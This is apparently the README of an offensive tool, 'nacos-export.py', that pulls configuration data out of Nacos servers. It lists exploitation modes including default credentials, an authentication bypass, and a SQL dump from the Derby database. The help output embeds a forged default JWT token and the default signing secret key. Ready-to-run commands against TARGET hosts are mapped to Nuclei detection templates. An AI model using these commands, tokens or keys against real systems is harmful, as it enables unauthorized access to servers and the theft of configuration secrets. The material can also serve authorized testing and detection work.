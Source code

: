 # NACOS EXPORT

## Feature

- ✅ 通过nacos账号密码导出配置
- ✅ 通过secretkey导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置
- ✅ 判断是否使用derby数据库

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向 `/v1`的上一级目录.

> 若要将结果保存至文件，请通过重定向输出方式

```text
$ python3 nacos-export.py -h
usage: nacos-export.py [-h] -u URL [-U USERNAME] [-P PASSWORD] [-T TOKEN] [-S SECRETKEY] [--proxy PROXY] [--check-derby]
                       [--apidump] [--sqldump] [--no-color]

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.5.0
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |         
                ||     ||

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     NACOS url, before '/v1'
  -U USERNAME, --username USERNAME
                        NACOS username, default: nacos
  -P PASSWORD, --password PASSWORD
                        NACOS password, default: nacos
  -T TOKEN, --token TOKEN
                        token, default: eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-
                        isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g
  -S SECRETKEY, --secretkey SECRETKEY
                        secretkey, default: SecretKey012345678901234567890123456789012345678901234567890123456789
  --proxy PROXY         set proxy, example: http://127.0.0.1:8080
  --check-derby         Check standalone mode
  --apidump             extract NACOS config
  --sqldump             extract NACOS config from Derby database
  --no-color            Print without Color
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py -u http://TARGET:8848/nacos -U nacos -P nacos --apidump`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos --apidump`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos --apidump`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos -T eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g --apidump`
